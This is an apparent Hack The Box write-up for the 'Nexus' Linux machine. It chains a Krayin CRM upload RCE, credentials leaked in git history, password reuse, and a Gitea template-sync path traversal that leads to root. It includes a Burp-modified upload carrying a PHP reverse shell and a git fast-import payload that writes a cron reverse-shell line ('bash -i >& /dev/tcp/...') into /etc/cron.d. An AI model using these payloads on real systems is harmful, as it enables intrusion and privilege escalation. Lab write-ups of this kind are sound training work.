




# Nexus — HTB Machine

**Platform:** Hack The Box
**Difficulty:** Hard
**Type:** Linux Machine
**Objective:** Obtain user and root flags
**Key Vulnerabilities:** CVE-2026-38526 (Krayin CRM file upload RCE) → credential reuse → path traversal in Gitea template-sync script → root via cron
**Status:** ✅ Completed

---

## Attack Flow

```text
Nmap --> 22 (ssh), 80 (http, redirects to nexus.htb)
Vhost fuzzing --> billing.nexus.htb, git.nexus.htb
Careers page --> leaks email j.matthew@nexus.htb
Gitea commit history --> leaks DB_PASSWORD
Login to Krayin CRM --> version 3.1 --> CVE-2026-38526
PHP reverse shell uploaded via /admin/tinymce/upload (Burp bypass)
Shell as www-data --> .env leaks password reused by user "jones"
SSH as jones --> user.txt
gitea-template-sync.timer --> path traversal in template-sync.py
Malicious Gitea template repo --> payload written to /etc/cron.d/
Cron fires as root --> reverse shell --> root.txt
```

---

## 1. Recon

```bash
nmap -sS -n -Pn -oN scan -p- --min-rate 5000 10.129.62.221
nmap -sS -n -Pn -oN scanversion -A -p22,80 10.129.62.221
```

```text
22/tcp open  ssh     OpenSSH 9.6p1
80/tcp open  http    nginx 1.24.0
```

Port 80 redirects to `nexus.htb`.

```bash
ffuf -w ~/Desktop/Lists/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt \
  -u http://nexus.htb/ -H "Host: FUZZ.nexus.htb" -fs 154
```

```text
billing    [Status: 302]
git        [Status: 200]
```

---

## 2. Subdomain Recon




Careers page on the root site leaks an email:


```text
j.matthew@nexus.htb
```

---

## 3. Credential Leak via Gitea History

A public Krayin repo's commit history reveals a removed `.env` password still visible in the diff:



```text
j.matthew@nexus.htb : N27xh!!2ucY04
```


---

## 4. Exploitation — CVE-2026-38526

Krayin version **3.1** is confirmed via the repo's Docker Compose file. Known vulnerability:

> CVE-2026-38526 — Webkul Krayin CRM RCE via unrestricted file upload at `/admin/tinymce/upload`.

PHP reverse shell generated via [revshells.com](https://www.revshells.com/):

```php
$ip = '10.10.17.1';
$port = 4343;
```

```bash
nc -lvnp 4343
```

Delivered through Krayin's Compose Mail image upload:



Intercepted in Burp Suite and modified:

```http
# Original
Content-Disposition: form-data; name="file"; filename="blobid1785281982029.jpg"
Content-Type: image/jpeg

# Modified
Content-Disposition: form-data; name="file"; filename="blobid1785281982029.php"
Content-Type: image/jpeg
```

Result:

```text
Connection received on 10.129.72.194 43306
uid=33(www-data) gid=33(www-data)
```

---

## 5. Credential Reuse → User Flag

```bash
cat /etc/passwd    # jones:x:1000:1000:...
cat /var/www/krayin/.env
```

```text
DB_PASSWORD=y27xb3ha!!74GbR
```

```bash
ssh jones@nexus.htb
# password: y27xb3ha!!74GbR
cat user.txt
```

✅ User flag obtained.

---

## 6. Root — Gitea Template-Sync Path Traversal

```bash
systemctl list-timers
```

```text
gitea-template-sync.timer   ...   every ~2 min
```

```bash
cat /etc/gitea/template-sync.py
```

```python
target = os.path.join(stage_path, filepath)   # unsanitized, traversal possible
```

**Create a Gitea template repo:**



```bash
cd /tmp
git clone http://localhost:3000/jones/ROOT.git
cd ROOT/
```

**Craft the traversal payload:**

```bash
cat > payload.txt <<EOF
* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.17.1/4444 0>&1'
EOF

BLOB_HASH=$(git hash-object -w payload.txt)

git fast-import --quiet <<EOF
commit refs/heads/main
committer Exploiter <exploit@example.com> $(date +%s) +0000
data <<EOM
RCE via cron
EOM
M 100644 $BLOB_HASH ../../../../../etc/cron.d/reverse_shell
EOF
```

```bash
git push origin main --force
```

Listener + wait for the timer to fire:

```bash
nc -lvnp 4444
```

```text
root@nexus:~# id
uid=0(root) gid=0(root) groups=0(root)
root@nexus:~# cat root.txt
```

✅ Root flag obtained — machine fully completed.

---

## Why It Works

- Removed secrets remain fully recoverable in Git commit history
- Krayin trusts `Content-Type`/filename over actual file content, enabling arbitrary file upload
- The database password doubled as a real OS-level password for `jones`
- `template-sync.py` builds destination paths from attacker-controlled repo content with no traversal checks
- A root-run sync script writes files derived from a low-privilege user's own repository — bridging user to root

---

## References

- CVE-2026-38526 — Webkul Krayin CRM RCE Vulnerability
- [revshells.com — Reverse Shell Generator](https://www.revshells.com/)
